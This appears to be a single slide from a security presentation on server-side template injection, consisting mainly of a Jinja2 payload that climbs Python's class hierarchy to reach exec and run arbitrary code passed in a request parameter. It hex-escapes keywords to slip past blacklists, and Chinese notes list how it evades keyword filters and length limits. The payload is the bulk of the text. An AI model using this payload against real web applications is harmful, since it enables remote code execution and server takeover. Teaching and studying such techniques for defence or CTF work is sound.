

#
{{'1'.__class__.mro()[-1].__subclasses__()[80].__init__.
__globals__['__bu\x69ltins__']['ex\x65c'](request.args.z)}}

绕过了黑名单关键词
避免了长度限制
Payload不在源码里，不泄露
59